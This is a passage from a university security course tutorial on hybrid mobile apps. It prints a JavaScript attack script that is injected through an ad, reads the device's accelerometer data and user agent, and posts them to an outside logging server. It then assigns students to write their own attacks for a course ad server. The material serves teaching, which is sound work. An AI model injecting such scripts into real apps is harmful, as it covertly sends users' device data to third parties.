 What just happened is that the attack grabbed the current accelerometer data and sent it to a logging server (sitting on the same server as our ad server for convenience). This logging server could be anything - and could reside anywhere. Now the attacker has your data! In case you are wondering this is the attack code injected into the app.

```HTML
<script>
    var result={'x':'','y':'','z':'','timestamp':''};
    try {
        navigator.accelerometer.getCurrentAcceleration(function (acceleration) {//success callback
        //console.log('acceleration setvars called');
        result.x=acceleration.x;
        result.y=acceleration.y;
        result.z=acceleration.z;
        result.timestamp=acceleration.timestamp;
        var formData = 'attack=2'+'&result='+JSON.stringify(result)+'&deviceinfo='+navigator.userAgent;
        $.ajax({
            url: 'http://hybridapp.mlhale.com/api/logs',
            type: "POST",
            data: formData,
            contentType:"application/x-www-form-urlencoded"
        }).then(function (data, status, request){
            console.log("Successful ajax call: " + request.responseText);
            alert('Attack Succeeded: '+request.responseText, 10000);
        }).fail(function(request, status, error){
            console.log("Ajax error: "+request.responseText);
            alert('Attack Failed: '+request.responseText, 10000);
        });
    }, function (error) {//error callback
        //do some error handling
    });}
    catch(err){
        alert('Attack Failed: '+'Cordova failed: probably not running on a mobile device.', 10000);
    }
</script>
```

Here is a screenshot of the logs generate on my logging server

![advert2](hybrid-app-tutorial-part3/accelerometer-attack2.png)

[Top](#table-of-contents)

### Write your own attack
Write an attack to go along with the feature you worked on independently in lab 2. Ask me for access and I will provide you with credentials to access and deploy your attack on the ad server.

#### License
<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png" /></a><br /><span xmlns:dct="http://purl.org/dc/terms/" property="dct:title">CYBER8480 and related works</span> by <a xmlns:cc="http://creativecommons.org/ns#" href="http://faculty.ist.unomaha.edu/mlhale" property="cc:attributionName" rel="cc:attributionURL">Matt Hale</a> are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/">Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License</a>.
